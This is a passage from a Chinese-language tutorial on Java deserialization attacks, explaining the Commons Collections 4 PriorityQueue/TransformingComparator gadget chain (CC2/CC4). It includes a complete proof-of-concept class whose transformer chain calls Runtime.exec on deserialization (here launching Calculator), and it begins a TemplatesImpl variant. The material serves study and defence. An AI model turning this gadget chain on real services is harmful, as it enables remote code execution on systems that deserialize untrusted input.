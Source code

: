 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print](assets/1699411715-9f0983a2ceef50a5b1a4e6bb4c1b8060.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print")

总结起来就是：

-   `java.util.PriorityQueue` 是一个优先队列(Queue)，基于二叉堆实现，队列中每一个元素有自己的优先级，节点之间按照优先级大小排序成一棵树。
    
-   反序列化时调用 `heapify()` 方法，是为了反序列化后，需要恢复这个结构的顺序。
    
-   排序是靠将大的元素下移实现的。`siftDown()` 是将节点下移的函数， 而 `comparator.compare()` 用来比较两个元素大小。
    
-   `TransformingComparator` 实现了 `java.util.Comparator` 接口，这个接口用于定义两个对象如何进行比较。 `siftDownUsingComparator()` 中就使用这个接口的 `compare()` 方法比较树的节点。
    

POC 如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```java<br>package CC4Test;<br><br>import org.apache.commons.collections4.Transformer;<br>import org.apache.commons.collections4.comparators.TransformingComparator;<br>import org.apache.commons.collections4.functors.ChainedTransformer;<br>import org.apache.commons.collections4.functors.ConstantTransformer;<br>import org.apache.commons.collections4.functors.InvokerTransformer;<br><br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.reflect.Field;<br>import java.util.Comparator;<br>import java.util.PriorityQueue;<br><br>public class CC4Test {<br>    public static void main(String[] args) throws Exception {<br>        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(fakeTransformers);<br><br>        Comparator comparator = new TransformingComparator(transformerChain);<br>        PriorityQueue queue = new PriorityQueue(2, comparator);<br><br>        queue.add(1);<br>        queue.add(2);<br>        <br>        Field f = transformerChain.getClass().getDeclaredField("iTransformers");<br>        f.setAccessible(true);<br>        f.set(transformerChain, transformers);<br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(queue);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br>}<br>``` |

#### [](#422-commonscollection4-gadget)4.2.2 CommonsCollection4 Gadget

改进 PriorityQueue 利用链：因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化。所以便有了 CC4，CC4 只是将 CC2 中的 InvokerTransformer 替换为了 InstantiateTransformer。

创建 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>TemplatesImpl obj = new TemplatesImpl();<br>setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>``` |

创建一个正常的 `InvokerTransformer` 对象，并用它实例化 `Comparator` :

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```java<br>Transformer transformer = new InvokerTransformer("toString", null, null);<br>Comparator comparator = new TransformingComparator(transformer);<br>``` |
